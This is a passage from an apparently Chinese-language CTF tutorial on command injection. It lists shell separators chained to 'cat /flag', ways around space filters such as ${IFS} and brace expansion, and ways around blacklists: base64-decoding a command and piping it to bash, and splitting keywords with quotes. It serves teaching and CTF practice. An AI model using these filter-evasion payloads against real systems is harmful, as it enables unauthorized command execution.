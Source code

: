 **连接符**

```
CODE
ls&&cat /flag
ls&cat /flag
ls|cat /flag
ls||cat /flag
```

#### 空格过滤

这个是最常见的过滤，但这个也是最容易绕过的过滤，开发方过滤了空格虽然限制了我们能执行一部分命令，但事实上是很容易绕过的，以cat flag为例子：

```
CODE
cat flag.txt
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
CODE
$IFS`、`${IFS}`、`$IFS$一位数字
```

{cat,flag} 逗号代替空格

#### 黑名单过滤

如果使用了黑名单过滤，比如把cat函数或者是把flag给禁了，那么我们可以用以下几种方式来绕过，这里需要看具体题目，这里不代表全部。

1.base64

例如过滤掉了ls，我们需要执行时可以通过把命令base64编码后用base64解码来绕过黑名单过滤。

```
CODE
echo "bHM="|base64 -d|bash  
```

`echo "bHM="|base64 -d`先前说过了，这里就是获取到ls了，此时命令为：

```
CODE
bash ls
```

bash可以理解为就是一个命令处理器，我们在命令行输入命令时都是由它来处理我们的输入，那么此时命令就相当于执行了ls。

2.引号

学过编程会知道，引号内加不加空格是有区别的，加空格时表示空一格，不加则没有。

那么我们可以用引号来打断我们的输入但又同时保持我们的最终结果。

如：

```
CODE
ca""t /fla""g
cat''t /fl''ag
```
